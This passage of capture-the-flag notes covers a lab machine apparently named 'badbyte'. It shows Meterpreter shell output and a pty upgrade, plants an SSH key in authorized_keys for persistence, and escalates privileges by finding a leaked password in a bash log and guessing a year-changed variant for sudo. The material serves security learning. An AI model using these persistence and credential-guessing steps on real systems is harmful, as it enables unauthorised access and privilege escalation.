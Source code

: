 ```
(Meterpreter 1)(/home/errorcauser) > getuid
Server username: cth

```

```
(Meterpreter 1)(/home/errorcauser) > shell
Process 1378 created.
Channel 1 created.
id
uid=1000(cth) gid=1000(cth) groups=1000(cth),27(sudo)

```

- another method using rsa key found in one of the writeups 

`To get a better shell, I copied my public key on the server and reconnected using ssh.

```
mkdir .ssh
echo "ssh-rsa SSH KEY" > .ssh/authorized_keys
chmod 700 .ssh
chmod 600 .ssh/authorized_keys

# From my machine
ssh cth@target
```


- i did not find any writeup without the metasploit and my manual exploitation was also not working so continue with metasploit shell

```
(Meterpreter 1)(/home/errorcauser) > shell
Process 1438 created.
Channel 2 created.
id
uid=1000(cth) gid=1000(cth) groups=1000(cth),27(sudo)

```


```
python3 -c 'import pty;pty.spawn("/bin/bash")'
```


### Priv Esc

- found nothing in `sudo` , `suid`, `crontab`, `capabilities`
- tried to find all the files owner by `cth ` user using 
`cth@badbyte:/home$ find / -user cth -ls 2>/dev/null`

found an unusual file in the last `/var/log/bash.log`


found this in it `cth@badbyte:~$ G00dP@$sw0rd2020`

- tried this password to find `sudo` command by it said wrong password, so i changed the year to `2021` and it worked
